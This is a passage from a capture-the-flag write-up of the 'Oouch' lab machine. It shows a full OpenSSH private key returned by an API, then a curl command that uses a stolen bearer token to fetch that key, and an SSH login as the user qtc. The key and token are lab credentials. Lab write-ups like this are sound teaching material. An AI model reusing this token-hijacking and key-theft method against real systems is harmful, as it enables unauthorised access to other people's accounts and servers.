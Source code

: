       "ssh_key": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\n-----END OPENSSH PRIVATE KEY-----"
    }



That's an ssh key!

### SSH

I can save that key to a file (using `jq -r` to print the raw contents)
:



    root@kali# curl -s authorization.oouch.htb:8000/api/get_ssh -H "Authorization: Bearer LBLemeQIcZZtSgPB0Ax54DpJ1h1vrF" | jq -r '.ssh_key' > id_rsa_oouch_qtc



And connect over SSH as qtc:



    root@kali# ssh -i ~/keys/id_rsa_oouch_qtc qtc@consumer.oouch.htb
    Linux oouch 4.19.0-8-amd64 #1 SMP Debian 4.19.98-1 (2020-01-26) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Tue Feb 25 12:45:55 2020 from 10.10.14.6
    qtc@oouch:~$
